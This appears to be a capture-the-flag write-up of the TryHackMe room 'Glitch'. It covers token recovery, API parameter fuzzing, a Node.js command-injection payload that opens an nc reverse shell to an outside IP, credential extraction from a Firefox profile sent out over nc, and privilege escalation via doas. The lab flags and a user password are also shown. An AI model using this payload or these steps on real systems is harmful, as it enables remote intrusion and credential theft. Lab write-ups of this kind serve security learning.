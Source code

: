 ```yaml
---
title: Glitch
layout: post
author: Bit Criminals Team
date: 2021-05-14 17:02:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://tryhackme.com/room/glitch
---
```


We start with out routine Nmap scan which reveals that port 80 (running on Node js) is the only port open out of all 65535 ports.

![](/images/MaskdMafia/glitch3.png)

So we add the ip to our /etc/hosts before proceeding to visit it in our browser and be greeted with this:

![](/images/MaskdMafia/glitch1.png)

The question gives an idea about some kind of access token.
Checking the source code of the webpage, we find this interesting function getAccess() which seems to be fetching something.

![](/images/MaskdMafia/glitch2.png)

So we execute the function in the console and get back a string which seems to be base64 encoded.

![](/images/MaskdMafia/glitch4.png)

So we decode it and get the Access token.

![](/images/MaskdMafia/glitch5.png)

Checking the Network Tab of the webpage shows us that the value of the token has not been entered yet, so we enter the value of our Access token and reload the page in the browser to get a different-looking webpage.

![](/images/MaskdMafia/glitch6.png)

Looking at the source code of the new webpage, we see a section /api/items so we try to access it in our browser.

![](/images/MaskdMafia/glitch7.png)

So we fire up BurpSuite to see what is happening when we try to access the page .
We see that while trying to send a post request to /api/items we get this message:

```py
{"message":"there_is_a_glitch_in_the_matrix"}
```

Since,we are able to send POST requests.Let us search which parameters are available with wfuzz.

```wfuzz -XPOST -u http://ip/api/items?FUZZ=id -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt --hh 45```

![](/images/glitch.png)

Thus, we see that Cmd is available.

Now,we fire up burp and send a random request with cmd and it's working.

![](/images/glitch2.png)

Now,I started searching for the payload and I found one

```require("child_process").exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.4.53 4444 >/tmp/f")```

I changed the ip,encoded in URl form and POST this one.
And,it worked.

![](/images/glitch4.png)

Listening to the PORT we have the shell.

we stabilise our shell then with,

```python -c 'import pty;pty.spawn("/bin/bash")'```

Looking in the directories we get our user flag.

![](/images/glitch5.png)

Here's our user flag:**THM{i_don't_know_why}**

After some searching we found a **.firefox** folder inside **/home/user/** directory

We can take advantage of this folder and extract next user's password...

Firstly we created a tar file of the .firefox folder and sent it to our terminal through nc

![](/images/D4rkDemian/_glitch2.png)

![](/images/D4rkDemian/_glitch3.png)

After running following command we got the v0id user's password 

```shell
firefox --profile b5w4643p.default-release --allow-downgrade
```

![](/images/D4rkDemian/_glitch.png)

```v0id:love_the_void```

After logging as v0id I searched for some leaks through which we can become root and I found that as **doas**

i ran 
```shell
find / -type f -perm /40000 2>/dev/null
```
and doas was a sus!

![](/images/D4rkDemian/_glitch4.png)

After reading about it in [doas](https://github.com/slicer69/doas) i used the following command and got the root

```shell
doas bash -p
```
![](/images/D4rkDemian/_glitch5.png)

And finally got the root flag!!

**THM{diamonds_break_our_aching_minds}**


